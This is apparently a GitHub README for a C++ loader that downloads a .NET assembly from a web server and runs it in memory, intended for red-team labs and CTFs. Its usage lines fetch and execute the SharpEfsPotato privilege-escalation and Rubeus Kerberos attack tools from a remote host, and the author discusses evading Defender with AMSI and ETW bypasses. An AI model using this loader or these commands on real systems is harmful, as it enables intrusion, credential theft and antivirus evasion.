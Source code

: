# WorseNetLoader
C++ program that downloads and executes a .NET assembly inline and in memory, with no real evasion or shiny things added.

I created this project to be a base that I can clone and add features to as needed by my team. Currently it doesn't feature any sort of AMSI or ETW or whatever bypasses, but I can add them in fairly easily and create versions of this program to share during CTFs or labs that have defender(or other AV) running. Is it the best code? No, but it is functional. Currently not detected by defender, but it probably will be soon. Though, without any packaged bypass techniques your payload will probably be detected anyway.

### Usage:
Host the assembly you want to use on a web server and use the loader to download into memory and execute
```powershell
.\WorseNetLoader.exe /p:http://example.com/SharpEfsPotato.exe /a:'-p calc.exe'
.\WorseNetLoader.exe /p:http://example.com/Rubeus.exe /a:'monitor /interval:3'
```

Sources and inspiration:

https://github.com/racoten/BetterNetLoader

https://github.com/Adaptix-Framework/Extension-Kit/tree/main/Execution-BOF

https://github.com/Flangvik/NetLoader
